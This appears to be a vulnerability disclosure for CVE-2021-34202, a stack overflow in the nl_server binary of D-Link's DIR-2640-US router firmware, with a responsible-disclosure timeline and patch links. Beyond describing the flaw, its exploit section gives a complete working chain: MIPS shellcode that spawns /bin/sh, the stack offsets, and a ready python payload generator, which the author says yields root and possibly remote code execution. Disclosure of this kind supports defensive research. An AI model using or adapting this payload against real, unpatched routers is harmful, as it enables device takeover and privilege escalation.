





# Stack Overflow in DIR-2640-US Router

## Overview

- **CVE ID**: [CVE-2021-34202](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-34202)

- **Type**: [Out-of-bounds Write *- (787)*](http://cwe.mitre.org/data/definitions/787.html)

- **Vendor**: D-LINK (https://www.dlink.com/)

- **Products**: WiFi Router, such as DIR-2640-US.

- **Version**: Firmware (1.01B04)

- **Fix**: 

  https://support.dlink.com/productinfo.aspx?m=DIR-2640-US

  https://support.dlink.com/resource/SECURITY_ADVISEMENTS/DIR-2640/REVA/DIR-2640_REVA_FIRMWARE_v1.11B02_BETA01_HOTFIX.zip

## Severity

**High** 7.8 CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H

## Description

Multiple out-of-bounds vulnerabilities in some processes of D-Link AC2600(DIR-2640). Ordinary permissions can be elevated to administrator permissions, resulting in local arbitrary code execution.  An attacker can combine other vulnerabilities to further achieve the purpose of remote code execution.

Ordinary users can run `nl_server`.

```shell
admin@dlinkrouter:~$ ls -l ./usr/bin/nl_server 
-rwxr-xr-x    1     18616 May 23  2021 ./usr/bin/nl_server
```

`nl_server` does not enable any safe compilation options.

```shell
gef➤  checksec
[+] checksec for '_DIR2640A1_FW101B04.bin.extracted/_A0.extracted/_856EA8.extracted/cpio-root/usr/bin/nl_server'
Canary                        : ✘ 
NX                            : ✘ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : ✘ 
```

The process does not limit the length of parameters entered by the user.



The variable `dword_414140`  is used again in the `sub_401F40`.



The variables entered by the user are stored in the stack space. Therefore, there is a stack overflow vulnerability in this function.




[CVE-2021-34203](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-34203)  brought good news

> Is this parameter controllable externally?

## How to Reproduce (PoC)

Direct method

```shell
$ nl_server -i aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa1234
```



The return address of the process is directly modified by us to 1234 (ascii: 34333231)

## How to Exploit (exp)

`sp = 0x7fff6b70`, `sp + 0xa0 = 0x7fff6c10`

A suitable shellcode

```shell
char sc[] = {
    "\x24\x06\x06\x66" /* li a2,1638           */
    "\x04\xd0\xff\xff" /* bltzal a2,4100b4 <p> */
    "\x28\x06\xff\xff" /* slti a2,zero,-1      */
    "\x27\xbd\xff\xe0" /* addiu	sp,sp,-32      */
    "\x27\xe4\x10\x01" /* addiu	a0,ra,4097     */
    "\x24\x84\xf0\x1f" /* addiu	a0,a0,-4065    */
    "\xaf\xa4\xff\xe8" /* sw a0,-24(sp)        */
    "\xaf\xa0\xff\xec" /* sw zero,-20(sp)      */
    "\x27\xa5\xff\xe8" /* addiu	a1,sp,-24      */
    "\x24\x02\x0f\xab" /* li v0,4011           */
    "\x01\x01\x01\x0c" /* syscall 0x40404      */
    "/bin/sh"          /* sltiu	v0,k1,26990    */
                       /* sltiu	s3,k1,26624    */
}; //mipsel
```

Stack

```shell
┌────────────────┐ ◄────── sp
│                │
│                │
├────────────────┤ ◄────── sp + 0x18
│      v8        │
├────────────────┤
│                │
│                │
│                │
├────────────────┤ ◄────── sp + 0x4c
│      ra        │
xxxxxxxxxxxxxxxxxx ◄────── new_sp = sp + 0x50
│                │
├────────────────┤
│                │
│                │
│                │
├────────────────┤ ◄────── new_sp + 0x50
│   shellcode    │
├────────────────┤
│                │
│                │
└────────────────┘
```

Payload

```shell
python -c 'print "a" * 52 + "\x10\x6c\xff\x7f" + "b" * 0x50 + "\x66\x06\x06\x24"+  "\xff\xff\xd0\x04"+ "\xff\xff\x06\x28" + "\xe0\xff\xbd\x27"+ "\x01\x10\xe4\x27" +  "\x1f\xf0\x84\x24" + "\xe8\xff\xa4\xaf"+ "\xec\xff\xa0\xaf" + "\xe8\xff\xa5\x27"+  "\xab\x0f\x02\x24" +  "\x0c\x01\x01\x01"+ "/bin/sh" ' > payload
```

Our payload works correctly!



This binary can be run by ordinary users, so local code execution can elevate ordinary permissions to root permissions.

Of course, the parameter (payload) is actually the name of the bridge. If we can modify the bridge name from the outside, we can implement remote code execution!

## Disclosure Timeline

- 8-Feb-2021 Discoverd the vulnerability
- 9-Feb-2021 Responsibly disclosed vulnerability to vendor
- 10-Feb-2021 D-Link PSIRT would raise to R&D
- 31-Mar-2021 D-Link R&D was investigating the report
- 2-Jun-2021 Requested for CVE-ID assignment
- 10-Jun-2021 CVE-ID Assigned
- 13-Jun-2021 Notified CVE about a publication
- 22-Jun-2021 Fixed
